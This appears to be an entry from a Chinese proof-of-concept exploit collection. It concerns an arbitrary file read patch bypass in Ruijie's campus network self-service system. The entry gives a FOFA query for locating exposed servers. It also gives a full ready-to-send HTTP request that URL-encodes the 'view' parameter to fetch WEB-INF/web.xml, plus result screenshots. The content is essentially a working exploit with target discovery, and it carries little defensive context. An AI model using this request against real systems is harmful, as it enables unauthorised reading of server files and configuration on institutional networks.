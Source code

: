 ## 锐捷校园网自助服务系统login_judge.jsf任意文件读取漏洞补丁绕过

校园网自助服务系统/selfservice/selfservice/module/scgroup/web/login_judge.jsf 接口处存在任意文件读取漏洞补丁绕过，通过将`view`编码即可绕过

## fofa

```javascript
body="校园网自助服务系统"
```

## poc

```javascript
GET /selfservice/selfservice/module/scgroup/web/login_judge.jsf?vie%77=./WEB-INF/web.xml%3F HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

![image-20241025112954677](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251129745.png)

![image-20241025112527256](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251125343.png)